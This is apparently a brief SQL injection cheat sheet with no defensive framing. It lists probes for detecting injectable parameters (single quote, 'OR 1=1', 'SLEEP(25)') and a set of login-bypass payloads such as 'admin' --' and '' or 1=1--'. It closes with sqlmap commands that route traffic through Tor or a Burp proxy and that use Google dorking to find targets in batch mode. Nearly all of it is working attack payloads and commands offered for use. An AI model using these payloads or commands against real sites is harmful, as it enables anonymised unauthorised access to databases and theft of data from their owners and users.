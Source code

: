 # SQL injection
		Detecting SQL injection vulnerabilities
- Single quote '	`https://site/news.php?id=5'`
- Boolean conditions `https://site/news.php?id=5 OR 1=1`
- Timed base `https://site/news.php?id=5 or SLEEP(25)`

<!-- -->

		Bypassing Login Screens
-`admin' --`
- `admin' #`
-   `admin'/*`
-   `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`


			Sqlmap
### Through Tor
`--tor-type=SOCKS5`

### Through Burpsuite
`--proxy="http://127.0.0.1:8080/"`

### Use google Dorking
`sqlmap -g “payload” –-random-agent -f –-batch –-answer=”extending=N,follow=N,keep=N,exploit=n”n`